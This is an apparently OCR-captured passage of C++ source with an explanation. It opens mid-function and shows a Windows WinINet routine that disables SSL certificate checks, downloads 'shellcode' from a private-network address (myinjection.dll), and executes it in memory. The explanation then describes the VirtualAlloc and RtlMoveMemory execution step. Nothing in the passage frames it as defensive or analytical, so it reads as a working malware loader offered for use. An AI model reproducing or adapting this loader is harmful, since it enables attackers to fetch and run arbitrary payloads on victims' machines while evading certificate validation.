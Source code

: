 ```cpp
    InternetSetStatusCallback(hInternet, InternetCallback);

    // Open the URL
    HINTERNET hUrl = InternetOpenUrl(hInternet, url, NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE | INTERNET_FLAG_IGNORE_CERT_CN_INVALID | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, 0);
    if (!hUrl) {
        std::cerr << "InternetOpenUrl failed!" << std::endl;
        InternetCloseHandle(hInternet);
        return;
    }

    // Buffer to hold the downloaded bytecode
    char buffer[4096];
    DWORD bytesRead;
    std::vector<BYTE> shellcode;

    // Read the bytecode from the URL
    while (InternetReadFile(hUrl, buffer, sizeof(buffer), &bytesRead) && bytesRead) {
        shellcode.insert(shellcode.end(), buffer, buffer + bytesRead);
    }

    // Close internet handles
    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    // Execute the downloaded shellcode
    ExecuteShellcode(shellcode.data(), shellcode.size());
}

int main() {
    const char* url = "https://192.168.45.250:8000/myinjection.dll";
    DownloadAndExecuteShellcode(url);

    return 0;
}
```

### Explanation:

1. **SSL Certificate Validation Disabled:**
   - The `InternetSetStatusCallback` is used to set a callback function (`InternetCallback`) that returns `TRUE` for all SSL-related status codes, effectively disabling SSL certificate validation.

2. **WinINet API:**
   - `InternetOpen`, `InternetOpenUrl`, and `InternetReadFile` are used to open the internet session, download the bytecode from the provided URL, and read it into a buffer.

3. **Shellcode Execution:**
   - The `ExecuteShellcode` function allocates executable memory using `VirtualAlloc`, copies the shellcode into that memory using `RtlMoveMemory`, and then executes it by casting the memory to a function pointer.
